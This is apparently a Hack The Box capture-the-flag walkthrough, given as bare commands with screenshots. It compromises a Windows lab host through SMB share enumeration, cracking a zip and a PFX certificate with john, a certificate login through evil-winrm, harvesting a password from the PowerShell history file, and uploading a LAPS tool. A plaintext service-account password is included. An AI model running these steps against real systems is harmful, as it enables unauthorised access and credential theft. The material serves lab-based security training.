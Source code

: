 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.152
```
![image](https://github.com/regarmulia/HTB/assets/33616880/de39839c-7d0f-4e06-bce0-405c4fd5e9df)


```
smbclient -L \\\\10.10.11.152\\
smbclient \\\\10.10.11.152\\Shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/38dc3fff-aa4b-43ea-9708-623342572d32)


```
zip2john winrm_backup.zip > hash_zip
john hash_zip -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2fd7c3da-dd7e-4873-a74d-5cb138de68ca)

![image](https://github.com/regarmulia/HTB/assets/33616880/25e93ff2-37af-438d-8e31-0bbac933bdfb)


```
pfx2john legacyy_dev_auth.pfx > hash_pfx
john hash_pfx -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ade0c972-88c1-45ae-b2fe-482b7f8a930c)


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/07ffcc57-6bbb-4567-ad1e-38879504d66f)


```
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/dbc9049b-bc5b-4ae5-bf13-61229ef18444)


```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f6ebf0ae-9a32-4cdb-9a80-fd852960949d)


```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
net user svc_deploy
upload AdmPwd.PS
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0eeb2fa9-09a1-4cc8-9c21-69219178b416)


